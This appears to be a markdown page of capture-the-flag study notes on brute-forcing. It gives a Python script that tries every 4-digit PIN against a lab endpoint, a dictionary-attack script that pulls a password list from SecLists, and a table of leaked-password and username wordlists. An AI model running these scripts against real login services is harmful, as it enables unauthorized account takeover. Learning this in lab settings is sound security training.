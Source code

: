 ## Basic Python Brute Force Script

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Try every possible 4-digit PIN (from 0000 to 9999)
for pin in range(10000):
    formatted_pin = f"{pin:04d}"  # Convert the number to a 4-digit string (e.g., 7 becomes "0007")
    print(f"Attempted PIN: {formatted_pin}")

    # Send the request to the server
    response = requests.get(f"http://{ip}:{port}/pin?pin={formatted_pin}")

    # Check if the server responds with success and the flag is found
    if response.ok and 'flag' in response.json():  # .ok means status code is 200 (success)
        print(f"Correct PIN found: {formatted_pin}")
        print(f"Flag: {response.json()['flag']}")
        break
```

## Common Wordlists

## Wordlists

| Wordlist | Description | Typical Use |
|----------|-------------|-------------|
| `SecLists\Passwords\Leaked-Databases\rockyou.txt` | Millions of leaked passwords from RockYou breach | Password brute force attacks |
| `SecLists\Passwords\Common-Credentials\darkweb2017_top-10000.txt` | 10000 leaked passwords from 2017 | Password brute force attacks |
| `SecLists\Usernames\top-usernames-shortlist.txt` | Concise list of common usernames | Quick username brute force |
| `SecLists\Usernames\xato-net-10-million-usernames.txt` | Extensive 10 million usernames list | Thorough username brute forcing |
| `SecLists\Passwords\Common-Credentials\2023-200_most_used_passwords.txt` | 200 most common passwords as of 2023 | Target reused passwords |
| `SecLists\Passwords\Default-Credentials\default-passwords.txt` | Default usernames/passwords for devices/software | Try default credentials |

## Basic Python Dictionary Solver

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
```